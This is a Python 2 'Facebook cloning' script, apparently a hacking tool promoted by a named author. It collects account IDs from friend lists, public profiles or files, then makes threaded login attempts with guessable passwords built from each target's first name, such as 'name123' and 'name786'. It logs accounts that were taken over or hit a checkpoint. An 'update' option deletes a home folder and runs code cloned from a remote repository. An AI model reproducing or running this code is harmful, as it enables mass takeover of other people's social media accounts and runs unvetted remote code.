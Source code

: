 #!/usr/bin/python2
#coding=utf-8

import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib
from multiprocessing.pool import ThreadPool
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    os.system('python2 B4.py')

from requests.exceptions import ConnectionError
from mechanize import Browser

#### browser ####
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

#### colours ####
B='\033[1;94m'
R='\033[1;91m'
G='\033[1;92m'
W='\033[1;97m'
S='\033[1;96m'
P='\033[1;95m'
Y='\033[1;93m'

#### exit ####
def exb():
	print (R + 'Exit')
	os.sys.exit()

#### clear ####
def cb():
    os.system('clear')

#### time sleep ####
def t():
    time.sleep(1)
def t1():
    time.sleep(0.01)

#### print std ####
def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		t1()

#### token remove ####
def trb():
    os.system('rm -rf token.txt')

##### LOGO #####
logo='''
\033[1;94m ┈┈┈┈╱▔▔▔▔╲┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈╱▔▔▔▔╲┈┈┈┈
\033[1;94m ┈┈┈▕▕B4 M4▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕B4 M4▏▏┈┈┈
\033[1;94m ┈┈┈▕▕▂╱╲▂▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕▂╱╲▂▏▏┈┈┈
\033[1;94m ┈┈┈┈╲┊┊┊┊╱┈┈┈┈\033[1;94mMrAzeem.\033[1;91m┈┈┈┈╲┊┊┊┊╱┈┈┈┈
\033[1;96m ┈┈┈┈▕╲▂▂╱▏┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈▕╲▂▂╱▏┈┈┈┈
\033[1;96m ╱▔▔▔▔┊┊┊┊▔▔▔▔╲☞☞☞☞☞☞\033[1;91m☜☜☜☜☜╱▔▔▔▔┊┊┊┊▔▔▔▔╲
\033[1;96m................\033[1;93mMrAzeem\033[1;91m...............
\033[1;96m................\033[1;93m✬🄵🄰🄲🄴🄱🄾🄾🄺✬\033[1;91m..............

\033[1;96m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

\033[1;91m☞ Auther     : MR_AZEEM_TRICKER
\033[1;92m☞ WhatsApp   : 03143065255
\033[1;95m☞ YouTube    : https://youtube.com/channel/UCDrQLWFv7oshDCKHkqMNysw

\033[1;93m░░░░░░░░░░░░���░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
                                '''
back=0
successfull=[]
checkpoint=[]
oks=[]
cps=[]
id=[]

#### login ####
def login():
	cb()
	try:
		tb=open('token.txt', 'r')
		menu() 
	except (KeyError,IOError):
		cb()
		print (logo)
		print (R + '◈━━━━▷' + S + ' Login With ✬🄵🄰🄲🄴🄱🄾🄾🄺✬ ' + R + '◁━━━━◈')
		print
		id=raw_input(S + '[☆] ' + S + 'Email: ' + G +'')
		pwd=getpass.getpass(S + '[♡] ' + R + 'Password : ')
		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pwd)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		z=json.load(data)
		if 'access_token' in z:
		    st = open("token.txt", "w")
		    st.write(z["access_token"])
		    st.close()
		    print (S + '[☆]' + Y + ' Login successfull 100% ✓')
		    os.system('xdg-open https://youtube.com/channel/UCDrQLWFv7oshDCKHkqMNysw')
		    menu()
		else:
		    if "www.facebook.com" in z["error_msg"]:
		        print (R + 'Account has a checkpoint !')
		        t()
		        login()
		    else:
		        print (R + 'number/user id/ password is wrong !')
		        trb()
		        t()
		        login()
def menu():
	cb()
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + 'Token Invalid !')
		trb()
		t()
		login()
	try:
		otw=requests.get('https://graph.facebook.com/me?access_token='+tb)
		a=json.loads(otw.text)
	except KeyError:
		print (G + 'Account has a checkpoint !')
		trb()
		t()
		login()
	except requests.exceptions.ConnectionError:
		print (W + 'No internet connection !')
		t()
		exb()
	cb()
	print (logo)
	print (S + '[☆] ' + G + 'ID Name: ' + R + a['name'])
	print (S + '[☆] ' + G + 'User ID: ' + R + a['id'])
	print
	print (S + 50*'-')
	print
	print (S + '[' + P + '☞1' + S + ']' + S + ' Fast Cloning New Update')
	print (S + '[' + P + '☞2' + S + ']' + S + ' Update MrAzeemTrickerl')
	print (S + '[' + P + '☞3' + S + ']' + S + ' Mr_Azeem_Tricker WhatsApp Group')
	print (S + '[' + Y + '☞4' + S + ']' + G + ' Log Out')
	print (S + '[' + Y + '☞0' + S + ']' + R + ' Exit')
	print
	print (S + 50*'-')
	print
	mb()


def mb():
	bm=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bm =='':
		print (R + 'Select a valid option !')
		mb()
	elif bm =='1':
		pak()
	elif bm =='2':
	    os.system('rm -rf $HOME/B4_BALOCH')
	    os.system('cd $HOME && git clone https://github.com/shabirbaloch125/Baloch')
	    cb()
	    print (logo)
	    psb('☆10%')
	    psb('☆☆20%')
	    psb('☆☆☆30%')
	    psb('☆☆☆☆40%')
	    psb('☆☆☆☆☆50%')
	    psb('☆☆☆☆☆☆60%')
	    psb('☆☆☆☆☆☆☆70%')
	    psb('☆☆☆☆☆☆☆☆80%')
	    psb('☆☆☆☆☆☆☆☆☆90%')
	    psb('☆☆☆☆☆☆☆☆☆☆100%')
	    psb('Frends login new Account✓')
	    psb('WhatsApp Num 03143065255✓')
	    psb('WellCome To Mr-Azeem-Tricker')
	    psb('Congratulations MR_AZEEM Tool Has Been Updated Successfully')
	    psb('🔓User Name☆ MrAzeem✓')
	    psb('🔓Password ☆ Azeem121✓')
	    psb('Subscrib My Youtube Channel Mr Azeem Tricker✓')
	    psb('Please Login Again')
	    time.sleep(2)
	    os.system('cd $HOME/MR_AZEEM && python2 Azeem.py')
	elif bm =='3':
	    os.system('xdg-open


https://chat.whatsapp.com/GBBVgfS7BW60ZNDNCcWKgu')
	    menu()
	elif bm =='4':
		psb('Token Has Been Removed')
		trb()
		t()
		exb()
	elif bm =='0':
	    exb()
	else:
		print (R+'Fill in correctly !')
		mb()


def pak():
	global tb
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + ' Invalid Token !')
		trb()
		t()
		login()
	cb()
	print (logo)
	print (S + '[' + P + '☞1' + S + ']' + P + ' Clone With Friend List')
	print (S + '[' + P + '☞2' + S + ']' + P + ' Clone From Public Account')
	print (S + '[' + Y + '☞3' + S + ']' + Y + ' Clone From File')
	print (S + '[' + R + '☞0' + S + ']' + R + ' Back')
	print
	print (S + 50*'-')
	print
	pb()

def pb():
	bp=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bp =='':
		print (R + 'Select a valid option !')
		pb()
	elif bp =='1':
		cb()
		print (logo)
		r=requests.get('https://graph.facebook.com/me/friends?access_token='+tb)
		z=json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif bp=='2':
		cb()
		print (logo)
		idt=raw_input(S + '[☆] ' + G + 'Put Public User ID/User Name: ' + W + '')
		cb()
		print (logo)
		try:
			jok=requests.get('https://graph.facebook.com/'+idt+'?access_token='+tb)
			op=json.loads(jok.text)
			psb(S + '[☆]' + G + ' Account  Name: ' + W + op['name'])
		except KeyError:
			print (R + ' ID not found !')
			raw_input(R + ' Back')
			pak()
		r=requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+tb)
		z=json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif bp =='3':
		cb()
		print (logo)
		try:
			idlist=raw_input(S + '[☆] ' + R + 'Enter File Path: ' + G + '')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print (R + ' File Not Fount !')
			raw_input(R + ' Back')
			pak()
	elif bp =='0':
		menu()
	else:
		print (R + ' Select a valid option !')
		pb()
	print (S + '[☆]' + P + ' Total Friends: ' + W + str(len(id)))
	psb(S + '[☆]' + S + ' To stop process  click on CTRL ~ Z')
	print
	print (S + 50*'-')
	print
	def main(arg):
		global cps, oks
		user=arg
		try:
			h=requests.get('https://graph.facebook.com/'+user+'/?access_token='+tb)
			j=json.loads(h.text)
			ps1=('786786')
			dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps1)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			k=json.load(dt)
			if 'www.facebook.com' in k['error_msg']:
			    print(S+'[CP] ♡ '+user+' ♡ '+ps1)
			    cps.append(user+ps1)
			else:
			    if 'access_token' in k:
			        print (G+'[OK] ♡ '+user+' ♡ '+ps1)
			        oks.append(user+ps1)
			    else:
			        ps2=(j['first_name']+'123')
			        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps2)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			        k=json.load(dt)
			        if 'www.facebook.com' in k['error_msg']:
			            print(S+'[CP] ♡ '+user+' ♡ '+ps2)
			            cps.append(user+ps2)
			        else:
			            if 'access_token' in k:
			                print(G+'[OK] ♡ '+user+' ♡ '+ps2)
			                oks.append(user+ps2)
			            else:
			                ps3=(j['first_name']+'786')
			                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps3)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                k=json.load(dt)
			                if 'www.facebook.com' in k['error_msg']:
			                    print(S+'[CP] ♡ '+user+' ♡ '+ps3)
			                    cps.append(user+ps3)
			                else:
			                    if 'access_token' in k:
			                        print(G+'[OK] ♡ '+user+' ♡ '+ps3)
			                        oks.append(user+ps3)
			                    else:
			                        ps4=(j['first_name']+'12345')
			                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps4)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                        k=json.load(dt)
			                        if 'www.facebook.com' in k['error_msg']:
			                            print(S+'[CP] ♡ '+user+' ♡ '+ps4)
			                            cps.append(user+ps4)
			                        else:
			                            if 'access_token' in k:
			                                print(G+'[OK] ♡ '+user+' ♡ '+ps4)
			                                oks.append(user+ps4)
			                            else:
			                                ps5=('Pakistan')
			                                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps5)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                k=json.load(dt)
			                                if 'www.facebook.com' in k['error_msg']:
			                                    print(S+'[CP] ♡ '+user+' ♡ '+ps5)
			                                    cps.append(user+ps5)
			                                else:
			                                    if 'access_token' in k:
			                                        print(G+'[OK] ♡ '+user+' ♡ '+ps5)
			                                        oks.append(user+ps5)
			                                    else:
			                                        ps6=(j['first_name']+'khan')
			                                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps6)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                        k=json.load(dt)
			                                        if 'www.facebook.com' in k['error_msg']:
			                                            print(S+'[CP] ♡ '+user+' ♡ '+ps6)
			                                            cps.append(user+ps6)
			                                        else:
			                                            if 'access_token' in k:
			                                                print(G+'[OK] ♡ '+user+' ♡ '+ps6)
			                                                oks.append(user+ps6)
		except:
			pass
	p=ThreadPool(30)
	p.map(main, id)
	print
	print(S+50*'-')
	print
	print(S+'Process has been completed CP ID Open After 7 Days ')
	print(Y+'Total '+G+'OK'+S+'/'+P+'CP'+S+' = '+G+str(len(oks))+S+'/'+R+str(len(cps)))
	print(S+'BlackMafia')     
	print
	raw_input(R + 'Back')
	os.system('python2 Azeem.py')
if __name__=='__main__':
    login()

